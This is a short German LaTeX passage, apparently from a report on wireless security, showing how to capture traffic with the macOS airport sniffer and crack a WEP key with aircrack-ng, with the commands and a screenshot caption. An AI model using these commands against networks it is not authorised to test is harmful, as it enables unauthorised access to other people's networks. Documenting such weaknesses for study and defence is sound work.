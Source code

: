
Der Sniffer kann auch direkt über die Kommandozeile ausgeführt werden:
\begin{lstlisting}[style=lstStyleFramed]
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport
sudo airport en0 sniff <CHANNEL>
\end{lstlisting}

Anschliessend können die Daten des \textit{Sniffers} mit dem \textit{aircrack-ng} ausgewertet werden:
\begin{lstlisting}[style=lstStyleFramed]
aircrack-ng -b 00:0f:cc:b0:1a:c8 /private/tmp/airportSniff*.cap
\end{lstlisting}

So wird, falls genügend \gls{ivLabel}'s vorhanden sind, der \gls{wepLabel} ausgegeben (Dauer: 2 Sek.).
\begin{figure}[H]
	\centering
	\includegraphics[width=1.0\textwidth]{images/wep/aircrack-ng.png}
	\caption[aircrack-ng: WEP Schlüssel knacken -- Terminalausgabe]{aircrack-ng: \gls{wepLabel} Schlüssel knacken -- Terminalausgabe}
\end{figure}
